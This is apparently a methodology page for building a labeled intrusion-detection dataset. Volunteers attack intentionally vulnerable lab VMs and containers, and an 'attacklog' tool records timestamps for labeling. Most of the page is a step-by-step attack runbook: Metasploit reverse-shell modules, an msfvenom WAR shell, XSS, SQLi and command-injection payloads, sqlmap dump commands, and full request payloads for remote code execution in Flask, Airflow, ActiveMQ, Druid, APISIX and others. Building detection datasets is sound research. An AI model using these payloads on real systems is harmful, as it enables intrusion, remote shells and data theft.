

Cybersecurity Attacks Dataset
Methodology for creating a labeled network attack dataset using intentionally vulnerable VMs and volunteer attackers.
01 General Info
This project is focused on creation of a Cybersecurity Attacks Dataset which can later be used for IDS/IPS systems, ML, or any other relevant purpose.
The idea is to have an isolated environment with intentionally vulnerable VMs and volunteer attackers who will conduct the attacks. The following sections cover each aspect of the project and form the complete methodology.
02 Scenario
A controlled environment with vulnerable machines and attacker machines.
Vulnerable Machines
7 instances of each type:
- Metasploitable 2 VMs — Linux
- Metasploitable 3 VMs — Windows
- SecGen Custom VMs — still under testing
- vulhub Docker Containers — recent CVEs, different container combinations per VM
The Attacks section is organized by type of vulnerable machine, providing detailed information on every vulnerability.
Attacker Machines
Each attacker is given a preconfigured Kali Linux VM inside the environment with all required tools. Total: 7 Kali Linux VMs.
03 Monitoring
RAW Packet Capture
Still to be tested — waiting on Bidik’s proposal.
NTP Synchronization
- NTP server:
ntp.finki.ukim.mk— configured on all machines - Linux (systemd):
/etc/systemd/timesyncd.conf - Older Linux: manual NTP installation
- Windows: Windows Time Service (
W32Time)
Logs
- VictoriaLogs — stores all system logs, pulls from Kafka queue
- Log Agent on each machine — options: Grafana Promtail, Fluent Bit
- Kafka — receives and queues logs from each machine

NetFlow
- nprobe — NetFlow probe on the firewall
- ntopng — NetFlow web interface
- Kafka — optional queuing of NetFlow packets from nprobe

04 Attacks
Each entry includes: attack_name, exploit_cve (if applicable), target_port, protocol, step-by-step instructions, and attacklog commands.
Attack Outcomes
attacklog start --name nmap-full-portscan --dst-ip <dst-ip> --dst-port 1-65535 nmap -p- <dst-ip> attacklog end --status ran
Metasploitable 2
LinuxNote: More attacks will be added before the infrastructure is ready.
attacklog start --name ms2-rservices-portscan --dst-ip <dst-ip> --dst-port 513 nmap -p 513 <dst-ip> attacklog end --status ran
attacklog start --name ms2-rservices-revshell --dst-ip <dst-ip> --dst-port 513
rlogin -l root <dst-ip>
attacklog end --status <success|ran|error>
attacklog start --name ms2-unrealircd-portscan --dst-ip <dst-ip> --dst-port 6667 nmap -p 6667 <dst-ip> attacklog end --status ran
attacklog start --name ms2-unrealircd-revshell --dst-ip <dst-ip> --dst-port 6667
use exploit/unix/irc/unreal_ircd_3281_backdoor set RHOST <dst-ip> set RPORT 6667 set LHOST <your_ip> set LPORT 4444 set payload cmd/unix/reverse exploit
attacklog end --status <success|ran|error>
attacklog start --name ms2-dvwa-xss-reflected-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-dvwa-xss-reflected --dst-ip <dst-ip> --dst-port 80
<svg onload=alert('Example')>High: same payload, same bypass.
attacklog end --status <success|ran|error>
attacklog start --name ms2-dvwa-xss-stored-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-dvwa-xss-stored --dst-ip <dst-ip> --dst-port 80
<script>alert('example')</script><img src=x onerror=alert('example')>High: not bypassable.
attacklog end --status <success|ran|error>
attacklog start --name ms2-dvwa-cmdinject-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-dvwa-cmdinject --dst-ip <dst-ip> --dst-port 80
127.0.0.1 && whoami
127.0.0.1 | whoami
attacklog end --status <success|ran|error>
attacklog start --name ms2-dvwa-lfi-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-dvwa-lfi --dst-ip <dst-ip> --dst-port 80
http://<dst-ip>/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
attacklog end --status <success|ran|error>
attacklog start --name ms2-dvwa-sqli-manual-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-dvwa-sqli-manual --dst-ip <dst-ip> --dst-port 80
1' or 1 = '1
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
' UNION SELECT user, password FROM users#
1 UNION SELECT user, password FROM users#
attacklog end --status <success|ran|error>
attacklog start --name ms2-mutillidae-sqlmap-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms2-mutillidae-sqlmap --dst-ip <dst-ip> --dst-port 80
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username,password --batch
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=B --batch --level=3
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=T --batch --level=3
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=E --batch --level=3
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=U --batch --level=3 --union-cols=3-6
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --batch --dbs --tables --dump --level=5 --risk=3
attacklog end --status <success|ran|error>
Metasploitable 3
WindowsNote: More attacks will be added before the infrastructure is ready.
attacklog start --name ms3-glassfish-portscan --dst-ip <dst-ip> --dst-port 4848 nmap -p 4848 <dst-ip> attacklog end --status ran
attacklog start --name ms3-glassfish-revshell --dst-ip <dst-ip> --dst-port 4848
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f war -o shell.war
use exploit/multi/handler set PAYLOAD java/jsp_shell_reverse_tcp set LHOST <your_ip> set LPORT 4444 run
- Left panel → Applications → Deploy
- Select
shell.war→ OK
curl http://<dst-ip>:8080/shell/
attacklog end --status <success|ran|error>
attacklog start --name ms3-jenkins-portscan --dst-ip <dst-ip> --dst-port 8484 nmap -p 8484 <dst-ip> attacklog end --status ran
attacklog start --name ms3-jenkins-revshell --dst-ip <dst-ip> --dst-port 8484
use exploit/multi/http/jenkins_script_console set RHOSTS <dst-ip> set RPORT 8484 set LHOST <your_ip> set LPORT 4447 set PAYLOAD windows/meterpreter/reverse_tcp set TARGETURI /script exploit
attacklog end --status <success|ran|error>
attacklog start --name ms3-iis-http-dos-portscan --dst-ip <dst-ip> --dst-port 80 nmap -p 80 <dst-ip> attacklog end --status ran
attacklog start --name ms3-iis-http-dos --dst-ip <dst-ip> --dst-port 80
use auxiliary/dos/http/ms15_034_ulonglongadd set RHOSTS <dst-ip> set RPORT 80 run
attacklog end --status <success|ran|error>
attacklog start --name ms3-iis-ftp-wordlist-portscan --dst-ip <dst-ip> --dst-port 21 nmap -p 21 <dst-ip> attacklog end --status ran
attacklog start --name ms3-iis-ftp-wordlist --dst-ip <dst-ip> --dst-port 21
use auxiliary/scanner/ftp/ftp_login set RHOSTS <dst-ip> set RPORT 21 set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt set VERBOSE false run
attacklog end --status <success|ran|error>
attacklog start --name ms3-elasticsearch-portscan --dst-ip <dst-ip> --dst-port 9200 nmap -p 9200 <dst-ip> attacklog end --status ran
attacklog start --name ms3-elasticsearch-revshell --dst-ip <dst-ip> --dst-port 9200
use exploit/multi/elasticsearch/script_mvel_rce set RHOSTS <dst-ip> set RPORT 9200 set LHOST <your_ip> set LPORT 4444 set PAYLOAD java/meterpreter/reverse_tcp run
attacklog end --status <success|ran|error>
attacklog start --name ms3-snmp-portscan --dst-ip <dst-ip> --dst-port 161 --protocol udp nmap -sU -p 161 <dst-ip> attacklog end --status ran
attacklog start --name ms3-snmp-enum --dst-ip <dst-ip> --dst-port 161 --protocol udp
use auxiliary/scanner/snmp/snmp_enum set RHOSTS <dst-ip> set RPORT 161 set COMMUNITY public set VERSION 1 run
attacklog end --status <success|ran|error>
attacklog start --name ms3-jmx-portscan --dst-ip <dst-ip> --dst-port 1617 nmap -p 1617 <dst-ip> attacklog end --status ran
attacklog start --name ms3-jmx-revshell --dst-ip <dst-ip> --dst-port 1617
use exploit/multi/misc/java_jmx_server set RHOSTS <dst-ip> set RPORT 1617 set LHOST <your_ip> set LPORT 4444 set payload java/meterpreter/reverse_tcp run
attacklog end --status <success|ran|error>
SecGen
TestingStill under testing phase.
vulhub
DockerNote: all of this attacks are from https://github.com/vulhub/vulhub
Note: More attacks will be added before the infrastructure is ready.
attacklog start --name vulhub-flask-ssti-portscan --dst-ip <dst-ip> --dst-port 8000 nmap -p 8000 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-flask-ssti --dst-ip <dst-ip> --dst-port 8000
Flask/Jinja2 SSTI vulnerability allowing RCE when user input is rendered directly in templates without sanitization.
docker compose up -d
Visit http://<dst-ip>:8000/. Verify SSTI: http://<dst-ip>:8000/?name={{233*233}} — should return 54289.
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("id").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}http://<dst-ip>:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

attacklog end --status <success|ran|error>
attacklog start --name vulhub-airflow-cve-2020-11978-portscan --dst-ip <dst-ip> --dst-port 8080 nmap -p 8080 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-airflow-cve-2020-11978 --dst-ip <dst-ip> --dst-port 8080
Command injection in example DAG example_trigger_target_dag in Apache Airflow prior to 1.10.10.
docker compose run airflow-init docker compose up -d
Visit http://<dst-ip>:8080 and enable the example_trigger_target_dag flag:

Click the trigger button and input the configuration JSON:
{"message":"'\";touch /tmp/airflow_dag_success;#"}

docker compose exec airflow-worker ls -l /tmp

attacklog end --status <success|ran|error>
attacklog start --name vulhub-airflow-cve-2020-11981-portscan --dst-ip <dst-ip> --dst-port 6379 nmap -p 6379 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-airflow-cve-2020-11981 --dst-ip <dst-ip> --dst-port 6379
If the Redis broker is controlled by an attacker, arbitrary commands can be executed in the worker process. Apache Airflow prior to 1.10.10.
docker compose run airflow-init docker compose up -d
pip install redis python exploit_airflow_celery.py <dst-ip>
docker compose logs airflow-worker

docker compose exec airflow-worker ls -l /tmp

attacklog end --status <success|ran|error>
attacklog start --name vulhub-1panel-cve-2024-39907-portscan --dst-ip <dst-ip> --dst-port 10086 nmap -p 10086 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-1panel-cve-2024-39907 --dst-ip <dst-ip> --dst-port 10086
SQL injection in the 1Panel control panel (v1.10.9-lts and earlier) allows arbitrary file writes and RCE. Patched in v1.10.12-lts.
docker compose up -d
Access http://<dst-ip>:10086/entrance — credentials: 1panel / 1panel_password.
POST /api/v1/hosts/command/search HTTP/1.1
Host: <dst-ip>:10086
Cookie: psession=your-session-cookie
Content-Type: application/json
{
"page":1,"pageSize":10,"groupID":0,
"orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);drop table test.exp;",
"order":"ascending","name":"a"
}
attacklog end --status <success|ran|error>
attacklog start --name vulhub-activemq-cve-2022-41678-portscan --dst-ip <dst-ip> --dst-port 8161 nmap -p 8161 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-activemq-cve-2022-41678 --dst-ip <dst-ip> --dst-port 8161
Authenticated RCE in Apache ActiveMQ prior to 5.16.5 and 5.17.3 via the Jolokia /api/jolokia endpoint.
docker compose up -d
Open http://<dst-ip>:8161/ — credentials: admin / admin.
GET /api/jolokia/list HTTP/1.1 Host: <dst-ip>:8161 Authorization: Basic YWRtaW46YWRtaW4=

python3 poc.py -u admin -p admin http://<dst-ip>:8161


python3 poc.py -u admin -p admin --exploit jfr http://<dst-ip>:8161


attacklog end --status <success|ran|error>
Alternative request format tested locally:
GET /api/jolokia/list HTTP/1.1 Host: localhost:8161 Authorization: Basic YWRtaW46YWRtaW4= Pragma: no-cache Cache-Control: no-cache Origin: http://localhost
attacklog start --name vulhub-activemq-cve-2026-34197-portscan --dst-ip <dst-ip> --dst-port 8161 nmap -p 8161 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-activemq-cve-2026-34197 --dst-ip <dst-ip> --dst-port 8161
Authenticated RCE in Apache ActiveMQ before 5.19.4 and 6.0.0 before 6.2.3. The Jolokia JMX-HTTP bridge exposes addNetworkConnector(String), allowing an attacker to load a remote Spring XML config and achieve code execution.
docker compose up -d
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" ...>
<bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>bash</value><value>-c</value>
<value><![CDATA[id > /tmp/success]]></value>
</list>
</constructor-arg>
</bean>
</beans>python3 -m http.server 80
POST /api/jolokia/ HTTP/1.1
Host: <dst-ip>:8161
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
{"type":"exec","mbean":"org.apache.activemq:type=Broker,brokerName=localhost","operation":"addNetworkConnector(java.lang.String)","arguments":["static:(vm://evil?brokerConfig=xbean:http://<your_ip>/poc.xml)"]}
docker compose exec activemq cat /tmp/success

attacklog end --status <success|ran|error>
Alternative using host.docker.internal as the XML server host:
{"type":"exec","mbean":"org.apache.activemq:type=Broker,brokerName=localhost","operation":"addNetworkConnector(java.lang.String)","arguments":["static:(vm://evil?brokerConfig=xbean:http://host.docker.internal/poc.xml)"]}attacklog start --name vulhub-airflow-cve-2020-17526-portscan --dst-ip <dst-ip> --dst-port 8080 nmap -p 8080 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-airflow-cve-2020-17526 --dst-ip <dst-ip> --dst-port 8080
Default session secret key in Apache Airflow prior to 1.10.13 allows forging session cookies and impersonating arbitrary users.
docker compose run airflow-init docker compose up -d
curl -v http://<dst-ip>:8080/admin/airflow/login

flask-unsign -u -c [session from Cookie]

flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
Insert generated cookie via: inspect → application → Cookies → session, then reload.

attacklog end --status <success|ran|error>
Install flask-unsign with wordlist support in a venv:
pip3 install flask-unsign[wordlist]
attacklog start --name vulhub-aj-report-cnvd-2024-15077-portscan --dst-ip <dst-ip> --dst-port 9095 nmap -p 9095 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-aj-report-cnvd-2024-15077 --dst-ip <dst-ip> --dst-port 9095
AJ-Report v1.4.0 and earlier contains an authentication bypass allowing arbitrary code execution.
docker compose up -d
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: <dst-ip>:9095
Content-Type: application/json;charset=UTF-8
{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
attacklog end --status <success|ran|error>
attacklog start --name vulhub-apache-cxf-cve-2024-28752-portscan --dst-ip <dst-ip> --dst-port 8080 nmap -p 8080 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-apache-cxf-cve-2024-28752 --dst-ip <dst-ip> --dst-port 8080
SSRF in Apache CXF before 4.0.4, 3.6.3, and 3.5.8 using Aegis DataBinding. Vulnerable endpoint: http://<dst-ip>:8080/test?wsdl.
docker compose up -d
POST /test HTTP/1.1
Host: <dst-ip>:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
------kkkkkk123123213
Content-Disposition: form-data; name="1"
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
<soapenv:Header/>
<soapenv:Body>
<web:test><arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0></web:test>
</soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
attacklog end --status <success|ran|error>
Alternative curl command (raw HTTP with \r\n line endings):
curl -X POST "http://<dst-ip>:8080/test" \ -H "Content-Type: multipart/related; boundary=----kkkkkk123123213" \ -H "Connection: close" \ --data-binary $'------kkkkkk123123213\r\nContent-Disposition: form-data; name="1"\r\n\r\n...\r\n------kkkkkk123123213--\r\n'
attacklog start --name vulhub-apache-druid-cve-2021-25646-portscan --dst-ip <dst-ip> --dst-port 8888 nmap -p 8888 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-apache-druid-cve-2021-25646 --dst-ip <dst-ip> --dst-port 8888
Apache Druid 0.20.0 and earlier allows authenticated users to execute arbitrary JavaScript code, leading to RCE with the privileges of the Druid server process.
docker compose up -d
POST /druid/indexer/v1/sampler HTTP/1.1
Host: <dst-ip>:8888
Content-Type: application/json
{
"type":"index",
"spec":{
"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/etc","filter":"passwd"}},
"dataSchema":{"dataSource":"test","parser":{"parseSpec":{
"format":"javascript",
"timestampSpec":{},"dimensionsSpec":{},
"function":"function(){var a=new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test:a}}",
"":{"enabled":"true"}
}}}
},
"samplerConfig":{"numRows":10}
}
attacklog end --status <success|ran|error>
attacklog start --name vulhub-apisix-cve-2020-13945-portscan --dst-ip <dst-ip> --dst-port 9080 nmap -p 9080 <dst-ip> attacklog end --status ran
attacklog start --name vulhub-apisix-cve-2020-13945 --dst-ip <dst-ip> --dst-port 9080
Apache APISIX has a default built-in API token edd1c9f034335f136f87ad84b625c8f1 giving access to all admin APIs, allowing remote Lua code execution via the script parameter in version 2.x.
docker compose up -d
POST /apisix/admin/routes HTTP/1.1
Host: <dst-ip>:9080
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
{
"uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M",
"upstream": {"type":"roundrobin","nodes":{"example.com:80":1}}
}
http://<dst-ip>:9080/attack?cmd=id

attacklog end --status <success|ran|error>
05 Automatic Labeling
Dedicated to automatic labeling of flows and raw packet captures after conducting attacks. A CLI tool called attacklog — pure Python, no external dependencies — records attack start and end events into a local SQLite database. Repository: github.com/JovanSimonoski/attacklog
Process
Each attacker runs attacklog (pre-installed on their Kali VM) to bracket every attack. This produces one structured SQLite record per attack, joined against captured flows and packets during post-processing.
What Each Record Captures
| Field | Description |
|---|---|
| attack_id | Unique UUID — auto-generated per attempt |
| attacker_id + src_ip | Set once at init, never re-entered. Format: attacker_<number> |
| attack_name | Canonical name matching the entry in the Attacks section |
| attack_type | Inferred automatically: targeted, port_scan, or network_scan |
| dst_ip | Single address, CIDR block, or IP range |
| dst_port | Single port, contiguous range, or comma-separated list |
| protocol | tcp, udp, or icmp |
| t_start / t_end | Millisecond-precision UTC timestamps from the system clock |
| status | success, ran (completed without exploiting), or error |
| notes | Optional free-text field for anomalies |
Attack Types
Inferred automatically from --dst-ip and --dst-port — no manual input required.
| Type | dst-ip | dst-port |
|---|---|---|
| targeted | Single address | Single port |
| port_scan | Single address | Range or list |
| network_scan | CIDR or range | Any |
Attacker Workflow (per attack)
- Run
attacklog startwith the attack name, destination IP, port, and protocol - Execute the attack following the step-by-step instructions
- Run
attacklog endwith the outcome status
Important: attacklog refuses to start a new attack if a previous one has no t_end.
Setup
- Each attacker receives a preconfigured Kali VM
- NTP synced to
ntp.finki.ukim.mkon all machines before any session — critical for timestamp joining attacklogpre-installed and initialized with the attacker’sattacker_idand static VPN IP- Static IP per attacker makes
src_ipa reliable identifier during flow/packet matching
Labeling Logic
src_ip+dst_ip+dst_port+protocolas the join key — source port recovered from PCAPt_start/t_endas the time window with ±1s jitter tolerance
Any flow outside a matched window is labeled benign.
Data Storage & Export
- Records stored at
~/.attacklog/attacks.db(SQLite) - Exported via
attacklog export --format jsonor--format csvat session end - Kafka integration deferred — to be discussed
Not Recorded (by design)
- Callback sessions (dst → src) — recoverable from PCAP if needed
- CVE, tool, payload — defined in attack files, joined by
attack_nameduring post-processing
Tool Reference
attacklog init --attacker-id attacker_<number> --src-ip <src_ip>
# Targeted attack attacklog start --name <attack_name> --dst-ip <dst-ip> --dst-port <port> # Port scan attacklog start --name <attack_name> --dst-ip <dst-ip> --dst-port 1-1024 # Network scan attacklog start --name <attack_name> --dst-ip 10.10.10.0/24 --dst-port 22,80,443 # UDP attacklog start --name <attack_name> --dst-ip <dst-ip> --dst-port <port> --protocol udp
attacklog end --status <success|ran|error> attacklog end --status error --notes "Module failed to connect"
attacklog list attacklog list --limit 10
attacklog export --format json --output attacks.json attacklog export --format csv --output attacks.csv
chmod +x attacklog.py sudo mv attacklog.py /usr/local/bin/attacklog